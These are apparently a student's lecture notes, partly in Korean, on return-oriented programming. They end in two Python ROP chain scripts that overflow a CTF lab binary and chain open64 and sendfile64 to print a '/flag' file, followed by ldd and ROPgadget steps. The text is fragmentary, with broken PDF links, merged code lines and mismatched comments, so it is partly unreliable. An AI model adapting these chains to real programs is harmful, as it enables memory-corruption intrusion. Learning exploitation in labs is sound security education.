 Gadgets address base and reuse it

ADD REGISTER
1. PUt that value on the stack
2. POP gadget
SKIP REGISTER
1. POP gadget
NOP
1. ret;
	1. Go to next address and next gadget
	2. SKIP and go NEXT
2. nop ret
STACK PIVOTING
1. xchg
	1. EXCHANGE REGISTER VALUE
	2. ATOMIC instruction
	3. exchange RSP
	4. Original space
	5. NO limitation of overflowed stack anymore
2. LOC

syscall instuction
	VERY RARE

OPEN FILE/READ FILE/CHANGE THE OWNER/CHANGE OF THE PERMISSION
> Function call to C library (Systemcall wrapper) -> 

OPEN THE FLAG and print value> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,10,0,11|L13 Return-oriented Programming, p.38]]
> > ,
> 
> STDOUR> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,36,0,40|L13 Return-oriented Programming, p.38]]> [!PDF|] [[L13 Return-oriented Programming.pdf#page=42&selection=40,2,40,6|L13 Return-oriented Programming, p.42]]
> flag
.data section

> > 1000
> 
> OFfset


```
# sendfile64 0x7ffff7ed6100 # open64 0x7ffff7ed0e50  
# .date 0x0000000000404030 p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404028) # @ .data  
p += pack('<Q', 0x00007ffff7dff174) # pop rax ; ret  
p += '/flag'  
p += pack('<Q', 0x00007ffff7e6b85b) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x00007ffff7ed0e50) # open64  
p += pack('<Q', 0x00007ffff7f221e2) # mov rsi, rax ; shr ecx, 3 ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret  
p += pack('<Q', 0x00007ffff7de6b72) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7edc371) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7e5f822) # pop rcx; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00007ffff7ed6100) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x00007ffff7de584d) # syscall  
print p
```

```
#!/usr/bin/env python2 
from struct import pack

# sendfile64 # open64  
# .date  
p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404028) # @ .data  
p += pack('<Q', 0x00007ffff7dff174) # pop rax ; ret  
p += '/flag' 
p += pack('<Q', 0x00007ffff7e716eb) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x000000000010e030) # open64  
#pop rsi ret

p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000001) # 3  
p += pack('<Q', 0x00007ffff7f28468) # rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7ee2431) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7ee1f6f) # pop rcx ; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00000000001131c0) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x0000000000118940) # syscall  
print p
```

1. ldd로 확인
```
ctf@bufferoverflow_overflowret4_no_excstack_64:/$ ldd ./bufferoverflow_overflowret4_no_excstack_64 
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc9000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```
2. ROPGADGET으로 가젯 찾기
```
python3 ROPgadget/ROPgadget.py --binary ./bufferoverflow_overflowret4_no_excstack_64

python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6


```
3. objdump로 메모리 주소 확인하기